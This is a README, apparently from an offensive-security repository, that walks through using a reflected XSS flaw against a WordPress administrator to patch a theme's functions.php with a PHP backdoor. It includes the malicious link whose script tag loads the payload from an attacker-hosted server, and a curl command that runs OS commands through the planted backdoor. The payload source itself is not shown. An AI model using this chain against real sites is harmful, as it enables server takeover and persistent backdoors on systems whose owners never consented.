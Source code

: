 # [RCE] Patch File

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfive/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress -> Tools -> Theme File Editor -> Select theme to edit - (select target theme from droplist) -> Select -> Theme Functions (functions.php) -> (remove backdoor) -> Update File*

## Screenshot

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/f09429bc-da83-476f-9250-91ee15f7f4b0
